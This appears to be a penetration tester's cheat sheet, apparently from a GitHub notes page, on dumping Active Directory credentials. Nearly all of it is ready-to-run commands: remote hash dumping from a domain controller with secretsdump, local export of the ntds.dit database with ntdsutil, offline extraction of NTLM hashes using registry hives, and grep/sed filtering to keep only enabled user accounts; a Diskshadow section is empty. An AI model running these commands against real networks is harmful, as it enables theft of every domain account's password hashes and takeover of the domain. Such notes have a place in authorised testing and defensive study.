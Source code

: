 # Dump the domain

## Remote Access

### Secretsdump.py

```text
secretsdump -just-dc-ntlm -user-status -o [out_file] [Domain]/[User]@[IP] 
```

## Local Access

### NTDSutil

Windows binary allows for export of ntds.dit

```text
ntdsutil "activate instance ntds" "ifm" "create full c:\windows\temp\" "quit" "quit"
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\Pentest' quit quit"
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\Pentest' q q"
```

This can then be extracted using secretsdump.py and registry hashes

```text
secretsdump.py -system SYSTEM -security SECURITY -ntds ntds.dit local
```

Alternatively, additional information can be included such as if accounts are active:

```text
secretsdump.py -system ./SYSTEM -ntds ./ntds.dit  -o ntdis-extract -user-status LOCAL
```

Then the output can be filtered to remove both disabled and machine accounts:

```text
grep -i "enabled" <secetsdump.py_output.txt> | grep -v "\\$" | sed -e 's! (status=Enabled)!!' $1 > output-filtered.txt
```

### Diskshadow

To Do 

